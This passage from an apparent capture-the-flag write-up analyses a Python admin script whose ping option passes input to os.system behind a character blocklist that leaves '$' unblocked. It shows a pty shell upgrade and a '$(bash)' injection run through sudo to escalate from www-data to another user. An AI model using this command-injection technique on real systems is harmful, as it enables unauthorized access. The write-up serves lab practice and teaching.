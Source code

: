     os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
meterpreter > 
{% endhighlight %}

Take a look at "exec_ping."<br>
We can confirm that "exec_ping " is executing our input with no checking of "$".
{% highlight python %}
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
{% endhighlight %}

Besides, get a full shell like following.
{% highlight shell %}
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@jarvis:/var/www/Admin-Utilities$
{% endhighlight %}

With following way, we can execute arbitrary command.
{% highlight shell %}
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(bash)
$(bash)
pepper@jarvis:/var/www/Admin-Utilities$
{% endhighlight %}
